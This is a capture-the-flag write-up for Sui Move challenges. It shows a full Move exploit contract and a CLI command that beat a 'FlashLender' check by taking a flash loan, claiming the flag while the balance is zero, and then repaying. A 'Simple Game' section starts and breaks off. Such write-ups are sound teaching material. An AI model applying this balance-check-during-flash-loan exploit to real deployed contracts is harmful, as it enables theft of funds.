 Inorder to get the flag, we must need to pass the FlashLender object which has a balance 0 (to_lend == 0). Otherwise, we can't able to get the flag. ```to_lend``` is decreasing only when a user takes loan from the object. So, now we need to take loan from the lender, it means we need to call ```public fun loan(...)```, but from Sui Cli we only able to call ```pub entry fun <name>(...)```. But from another contract ```public fun <name>(...)``` can be called. So, I tried to write a new contract with payload. But, I dont know Sui and Move. I was so obfuscated. However, after many trails and some chat with my new friend and I got to know how to do. So I got it. You can download and see .toml file to know how I'm able to call deployed contract's function from my contract.
[ExploitContract](files/FlashLoan/loan.zip)

```rs 
module exploit_package::attack{
    use movectf::flash::{
        FlashLender, loan, 
        FLASH, Receipt,
        get_flag,deposit,repay,check
    };
    use sui::tx_context::{ TxContext};
    use sui:: coin::{ Coin};

    public entry fun getFlag(
                    lender: &mut FlashLender,
                    payment: u64,ctx: &mut TxContext 
                    ){
        let (_load, receipt): (Coin<FLASH>, Receipt) = loan(lender,payment,ctx);
        get_flag(lender,ctx);
        repay(lender,_load);
        check(lender,receipt);
    }
}
```

That's the definition of a Flash Loan -- it is a loan that exists only for the duration of the transaction, and it must be repaid before the transaction finishes. The Receipt is part of the pattern (we call it a "Hot Potato") to enforce that repayment. So we must repay. but the ```get_flag``` only check the balance in object. So, If we takeout full balance and then call get_flag and then repay. Bamn. Done. Now we just have to call our payload contract.

```bash
$ sui client --call --function getFlag --module attack --package <ourDeployedAddress> --args <lenderAddress> 1000 --gas-budget 1000
```
Note: We can't just Drop returned receipt. There is a function there called check which accepts a Receipt, so calling that would fix things for you in one sense.

Level completed.


## Simple Game

[FullCode](files/SimpleGame/simplegame.zip)

```rs
// Hero Object - hero.move
const MAX_LEVEL: u64 = 2;
const INITAL_HERO_HP: u64 = 100;
const INITIAL_HERO_STRENGTH: u64 = 10;
const INITIAL_HERO_DEFENSE: u64 = 5;
const HERO_STAMINA: u64 = 200;

public(friend) fun create_hero(ctx: &mut TxContext): Hero {
    Hero {
        id: object::new(ctx),
        level: 1,
        stamina: HERO_STAMINA,
        hp: INITAL_HERO_HP,
        experience: 0,
```